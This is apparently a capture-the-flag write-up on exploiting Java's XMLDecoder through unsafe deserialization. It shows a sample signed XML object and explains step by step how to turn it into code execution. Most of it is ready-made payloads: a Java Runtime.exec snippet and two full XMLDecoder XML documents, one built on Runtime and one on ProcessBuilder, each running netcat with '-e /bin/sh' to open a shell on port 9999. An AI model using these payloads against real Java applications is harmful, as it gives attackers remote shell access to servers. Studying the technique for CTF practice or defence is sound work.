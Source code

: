 # XMLDecoder

### Introduction

XMLDecoder is a Java class that creates object based on a XML message.  If a malicious user can get an application to use arbitrary data in a  call to the method `readObject`, she will instantly gain code execution on the server.

### Exploit

* If we read the signature generated by the server, it's easy to tell that the application is using `XMLDecoder`:

  ```xml
  <java version="1.7.0_67" class="java.beans.XMLDecoder">
  <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
  <string>hash</string>
  <void method="set">
  <object idref="CTFSignature0"/>
  <string>33b6c7bd8cc4d313bf9f7ca2c73851da2b33d67e</string>
  </void>
  </void>
  <void class="models.CTFSignature" method="getField">
  <string>sig</string>
  <void method="set">
  <object idref="CTFSignature0"/>
  <string>ad87fbe389784e423b4545b4a1c8a4f873a6295e</string>
  </void>
  </void>
  </object>
  </java>
  ```

if we save it as test.xml and verify it then it will be verifield.

### Java reverse shell

```java
Runtime run = Runtime.getRuntime();
String[] commands = new String[] { "/usr/bin/nc", "-l","-p", "9999", "-e", "/bin/sh" };
run.exec(commands );
```

To get code execution, we will need to manually transform this code in the right format.

To do this, we get a Runtime object using:

```xml
 <object class="java.lang.Runtime" method="getRuntime">
```

in place of class="models.CTFSignature"

Then we can call the method `exec` using:

```xml
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
```

If we look at the final payload, the important part is to see how the call to `exec` is nested inside the `object` element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

If we were to use `ProcessBuilder` instead of `Runtime().exec()`, the payload will look like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

save it as shell.xml

and verify it